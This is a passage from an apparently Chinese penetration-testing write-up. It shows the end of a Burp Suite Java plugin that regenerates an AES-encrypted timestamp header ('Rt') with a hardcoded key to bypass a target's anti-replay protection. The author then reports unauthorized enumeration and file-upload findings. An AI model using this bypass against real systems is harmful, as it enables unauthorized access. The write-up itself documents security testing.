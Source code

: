 ```
                    List<String> headers = analyzeRequest.getHeaders();

                    for(String header : headers){
                        stdout.println("header"+header);
                        if(header.startsWith("Rt")){
                            headers.remove(header);
                            break;
                        }
                    }

                    long currentTimestampSeconds = System.currentTimeMillis();
                    String aesKey = "1122334455667788";
                    String data = String.valueOf(currentTimestampSeconds);
                    String Rt = "Rt: "+ReplaceRt.encryptData(data,aesKey);// 替换header中的Rt

                    headers.add(Rt);
                    stdout.println(Rt);
                    byte[] new_Request = helpers.buildHttpMessage(headers,body);
                    stdout.println(helpers.analyzeRequest(new_Request).getHeaders());
                    messageInfo.setRequest(new_Request);
                }
            }
        }
        catch(Exception e){
            stdout.println(e);
        }

    }
}
```  
  
打jar包，导入到burp中一气呵成，闲庭信步，那么到现在，笔者就拥有了绕过防重放的  
burp插件包，效果如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8QxXQzRARZnMAFzcbGuqblwTU2jiaDK0ERGfNyaog7KIIPFOwZOfzusxibDmR3DvNmIiaLokjbqibJ9pbO3XHzadaA/640?wx_fmt=png "")  
  
已经是可以重放了，结合之前泄露的URL和接口信息，开测！  
  
还记得之前的思路吗？接下来针对之前搜集的JS资产开始一个一个测试：  
  
成果如下：未授权信息枚举，未授权文件上传；      
  
![](https://mmbiz.qpic.cn/mmbiz_png/8QxXQzRARZnMAFzcbGuqblwTU2jiaDK0EhSDvrSkEdLOicGrSahvKibDCU3fibz2sqTichL30J2cGWT4vDXhpVAft7g/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8QxXQzRARZnMAFzcbGuqblwTU2jiaDK0EgQypPnHariaUOaeBKbzxiaKJan0N8hx8ObXk6tMnecHubfPKMlqNBwAA/640?wx_fmt=png "")  
  
点到为止，本次收工。  
  
  
**6**  
  
**总结**  
  
  